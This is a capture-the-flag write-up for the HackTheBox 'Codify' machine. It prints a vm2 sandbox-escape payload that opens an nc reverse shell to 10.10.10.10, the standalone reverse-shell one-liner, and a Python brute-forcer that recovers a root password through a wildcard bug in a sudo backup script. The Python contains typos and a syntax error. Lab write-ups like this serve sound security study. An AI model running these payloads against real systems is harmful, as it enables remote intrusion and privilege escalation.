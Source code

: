```yaml
---
layout: post
title: "Codify-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/57b977ea744af01a5454c8643a850e59.webp
---
```


# Codify

HackTheBox: Medium

<aside>
💡 Codify is a compiler service it runs on VM2 we just find its vulnerabilitie having code we execute

</aside>

## 1: Enumeration

- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_1.png' | relative_url }})
<br/><br/>
FOOTHOLD
<br/><br/>
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f);
}
`
console.log(vm.run(code));
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```
<br/><br/>
## 2: User flag
<br/><br/>
Route
<br/><br/>
```bash
/var/www/contact 
```
<br/><br/>
There is a db creds
<br/><br/>
We use john for get user flag (joshua)
<br/><br/>
![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_2.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
> There is a mistake (bad practice) with mysql. Sometimes bash uses the admin password as a “args” and not as a string so we can use a script and with the help of * we can make:
<br/><br/>

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_3.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_4.png' | relative_url }})
<br/><br/>
```bash
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```
<br/><br/>
klj12h3jhaskjh12kjh3
<br/><br/>
Machine pwned!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
